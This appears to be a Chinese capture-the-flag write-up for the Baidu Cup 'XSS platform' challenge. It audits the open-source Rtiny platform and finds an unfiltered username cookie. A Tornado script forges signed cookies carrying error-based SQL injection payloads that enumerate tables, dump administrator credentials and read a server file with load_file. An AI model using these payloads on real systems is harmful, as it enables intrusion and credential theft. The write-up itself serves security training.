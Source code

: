 # XSS平台

## 题目描述
---
```
后台有获取flag的线索    
```

## 题目来源
---
“百度杯”CTF比赛 九月场

## 主要知识点
---


## 题目分值
---
50

## 解题思路
---

参数报错得知使用的是`Rtiny`

![](images/ctf-2021-06-09-15-02-41.png)

> Rtiny：https://github.com/r0ker/Rtiny-xss/tree/master

审计Rtiny，发现lock.py文件中的代码是存在注入的：

![](images/ctf-2021-06-09-15-08-41.png)

我们可以随意构造username，代码没有做任何过滤。`cookie`保存了用户名，该用户名使用了`set_secure_cookie`方法进行加密，`set_secure_cookie`是tornado的一个方法：

![](images/ctf-2021-06-09-15-10-27.png)

那么我们想要注入成功，就需要构造一个合适`username`，然后使用`set_secure_cookie`加密，使服务器在加载`username`时产生注入攻击。

`set_secure_cookie`加密使用的`key`在`index.php`文件中，所以我们只需要将自己的注入语句，使用相同的`key`加密即可，脚本如下：

```python
# pip install tornado

#!/usr/bin/env python
#-*- coding: utf-8 -*-
import tornado.ioloop
import tornado.web 
 
settings = { 
   "cookie_secret" : "M0ehO260Qm2dD/MQFYfczYpUbJoyrkp6qYoI2hRw2jc=",
}

class MainHandler(tornado.web.RequestHandler):
    def get(self):
        self.write("Hello")
        # 获取mysql版本
        # self.set_secure_cookie("username","' and extractvalue(1,concat(0x5c,(select version()))) -- ")
        # 获取表名
        # self.set_secure_cookie("username", "' and extractvalue(1,concat(0x5c,(select group_concat(distinct table_name) from information_schema.tables where table_schema=database())))-- ")
        # 获取列名
        # self.set_secure_cookie("username","' and extractvalue(1,concat(0x5c,(select group_concat(distinct column_name) from information_schema.columns where table_schema=database() and table_name='manager')))-- ")
        # 获取数据
        # self.set_secure_cookie("username","' and extractvalue(1,concat(0x5c,mid((select group_concat(username,'|',password,'|',email) from manager),30,62))) -- ")
        # 获取flag
        self.set_secure_cookie("username", "' and extractvalue(1,concat(0x5c,mid((select load_file('/var/www/html/f13g_ls_here.txt')),28,60)))#")
        self.write(self.get_secure_cookie("username"))

def make_app():
    return tornado.web.Application([
        (r"/index", MainHandler),
        ], **settings)

if __name__ == "__main__":
    app = make_app()
    app.listen(8100)
    tornado.ioloop.IOLoop.instance().start()
```

脚本跑起来后，访问地址`http://127.0.0.1:8100/index`，在浏览器中就可以获得`恶意username`的`set_secure_cookie`加密后内容

![](images/ctf-2021-06-09-15-18-28.png)

获取后台的登录账号密码`ichuqiu|318a61264482e503090facfc4337207f|545`

解密md5，得到密码为`Myxss623`

![](images/ctf-2021-06-09-15-28-44.png)

![](images/ctf-2021-06-09-15-26-09.png)

登录，获得获得真实信息

![](images/ctf-2021-06-09-15-34-00.png)

flag在`f13g_ls_here.txt`文件中，使用mysql的`load_file`函数获取flag

![](images/ctf-2021-06-09-15-39-26.png)

![](images/ctf-2021-06-09-15-40-58.png)

得到 flag{7a491787-3ce5-4a26-88d2-e2bd392265ba}


## 参考
---




